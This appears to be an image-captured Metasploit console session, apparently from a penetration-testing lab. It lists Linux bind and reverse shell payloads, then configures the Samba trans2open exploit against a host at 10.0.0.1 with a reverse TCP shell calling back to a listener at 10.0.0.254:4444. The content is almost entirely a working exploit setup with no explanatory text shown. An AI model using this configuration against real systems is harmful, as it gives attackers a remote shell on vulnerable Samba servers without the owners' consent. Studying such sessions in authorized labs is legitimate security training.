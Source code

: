 ```
   22  linux/x86/shell/bind_ipv6_tcp_uuid                         normal  No     Linux Command Shell, Bind IPv6 TCP Stager with UUID Support (Linux x86)
   23  linux/x86/shell/bind_nonx_tcp                              normal  No     Linux Command Shell, Bind TCP Stager
   24  linux/x86/shell/bind_tcp                                   normal  No     Linux Command Shell, Bind TCP Stager (Linux x86)
   25  linux/x86/shell/bind_tcp_uuid                              normal  No     Linux Command Shell, Bind TCP Stager with UUID Support (Linux x86)
   26  linux/x86/shell/reverse_ipv6_tcp                           normal  No     Linux Command Shell, Reverse TCP Stager (IPv6)
   27  linux/x86/shell/reverse_nonx_tcp                           normal  No     Linux Command Shell, Reverse TCP Stager
   28  linux/x86/shell/reverse_tcp                                normal  No     Linux Command Shell, Reverse TCP Stager
   29  linux/x86/shell/reverse_tcp_uuid                           normal  No     Linux Command Shell, Reverse TCP Stager
   30  linux/x86/shell_bind_ipv6_tcp                              normal  No     Linux Command Shell, Bind TCP Inline (IPv6)
   31  linux/x86/shell_bind_tcp                                   normal  No     Linux Command Shell, Bind TCP Inline
   32  linux/x86/shell_bind_tcp_random_port                       normal  No     Linux Command Shell, Bind TCP Random Port Inline
   33  linux/x86/shell_reverse_tcp                                normal  No     Linux Command Shell, Reverse TCP Inline
   34  linux/x86/shell_reverse_tcp_ipv6                           normal  No     Linux Command Shell, Reverse TCP Inline (IPv6)

msf5 exploit(linux/samba/trans2open) > set payload generic/shell_reverse_tcp
payload => generic/shell_reverse_tcp
msf5 exploit(linux/samba/trans2open) > show options

Module options (exploit/linux/samba/trans2open):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.0.0.1         yes       The target address range or CIDR identifier
   RPORT   139              yes       The target port (TCP)


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.0.254       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce
```
